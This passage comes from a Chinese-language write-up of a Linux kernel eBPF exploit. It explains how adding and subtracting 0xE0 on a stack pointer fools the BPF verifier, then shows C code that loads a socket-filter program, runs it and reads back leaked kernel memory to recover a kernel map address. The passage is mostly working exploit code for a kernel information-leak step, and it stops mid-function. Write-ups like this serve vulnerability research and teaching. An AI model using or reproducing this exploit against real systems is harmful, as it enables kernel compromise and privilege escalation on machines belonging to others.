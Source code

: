 将栈上的 array 指针取出，并减去 0xE0 ，与前面对应，结果保存进 r6 。一加一减，verifier会认为 r6 仍为 array 指针，即等于 0xFFFF...10 。而实际上，r6 等于 0xFFFF...10 - 0xE0 。这里可以选择加减 0x10 ~ 0xE0 ，选择 0xE0 泄露的数据较多。接着，将 r6 所指向的 PAGE_SIZE 字节数据复制到 array 指针处，实现信息泄露。调试发现，泄露的数据中就包含 array 指针，在 0xFFFF...10 - 0x50 处。

![](images/03.jpg)

```C
// r6 = *(u64 *)(r10 - 8) - 0xE0
BPF_LDX_MEM(BPF_DW, BPF_REG_6, BPF_REG_10, -8)
BPF_ALU64_IMM(BPF_SUB, BPF_REG_6, 0xE0)

// 将r6所指向的4096字节数据写入array map，实现信息泄露。
// 调试发现，r6+0xa0处为array map的地址。
// map_update_elem(ctx->comm_fd, 0, r6, 0)
BPF_LD_MAP_FD(BPF_REG_1, ctx->comm_fd)
BPF_MOV64_REG(BPF_REG_2, BPF_REG_8)
BPF_MOV64_REG(BPF_REG_3, BPF_REG_6)
BPF_MOV64_IMM(BPF_REG_4, 0)
BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_map_update_elem)
```

构造好程序后，就可将其加载进内核，attach 到 socket 上，向 socket 写入全零数据以覆盖栈上的 array 指针，再从 array map 中获取泄露的数据，从中找出 array 指针。

```C
int prog = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, insn, sizeof(insn) / sizeof(insn[0]), "");
if (prog < 0) {
    WARNF("Could not load program(do_leak):\n %s", bpf_log_buf);
    goto abort;
}

int err = bpf_prog_skb_run(prog, ctx->bytes, 8);

if (err != 0) {
    WARNF("Could not run program(do_leak): %d (%s)", err, strerror(err));
    goto abort;
}

int key = 0;
err = bpf_lookup_elem(ctx->comm_fd, &key, ctx->bytes);
if (err != 0) {
    WARNF("Could not lookup comm map: %d (%s)", err, strerror(err));
    goto abort;
}

u64 array_map = (u64)ctx->ptrs[20] & (~0xFFL);
if ((array_map&0xFFFFF00000000000) != 0xFFFF800000000000) {
    WARNF("Could not leak array map: got %p", (kaddr_t)array_map);
    goto abort;
}

static __always_inline int
bpf_prog_skb_run(int prog_fd, const void *data, size_t size)
{
    int err, socks[2] = {};

    if (socketpair(AF_UNIX, SOCK_DGRAM, 0, socks) != 0)
```